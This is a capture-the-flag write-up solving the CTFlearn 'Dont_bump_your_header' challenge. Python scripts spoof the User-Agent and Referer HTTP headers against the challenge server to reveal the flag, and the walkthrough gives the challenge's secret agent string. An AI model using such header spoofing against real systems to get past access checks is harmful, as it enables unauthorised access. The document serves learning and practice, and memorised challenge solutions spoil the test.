


# Writeup for [Dont\_bump\_your\_header](https://ctflearn.com/challenge/109) Box

When we open the provided link, we get an error message...  
  

This speaks of a User-Agent which is part of an HTTP Header. When we take a look at the source code, we can clearly see a comment that we can potentially use for the User-Agent.  
We could use the curl command to spoof our User-Agent but I feel like creating an exploit script for this box to sharpen my programming skills. I am going to use [Python](https://www.python.org/) and the built-in requests module.  

First of all, lets create a basic script to do a GET request on the website.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

s = requests.get(url)

print(s.text)
```  

When we run this script, we should be able to see the same error message we got when accessing the website. Since we got that comment from the source code, we should try to use that as our User-Agent.  
```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'
user_agent = 'Sup3rS3cr3tAg3nt'

headers = {
        'User-Agent' : user_agent,
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

When we run this script, we get another error...  
  
I got super confused and tried to manipulate the User-Agent but it seemed that it works. So what was the issue? When you read the error message carefully, it says that we did not come from `awesomesauce.com`. There is an entry called 'Referer' on an HTTP Header that denotes where the request came from, so we can set this Referer entry to be `awesomesauce.com`.  
This is what the final script should look like  

```python
#!/usr/bin/env python3

import requests

url = 'http://165.227.106.113/header.php'

user_agent = 'Sup3rS3cr3tAg3nt'
referer = 'awesomesauce.com'

headers = {
        'User-Agent' : user_agent,
        'Referer'   : referer
        }

s = requests.get(url,headers=headers)

print(s.text)
```  

Run the script and get that flag.
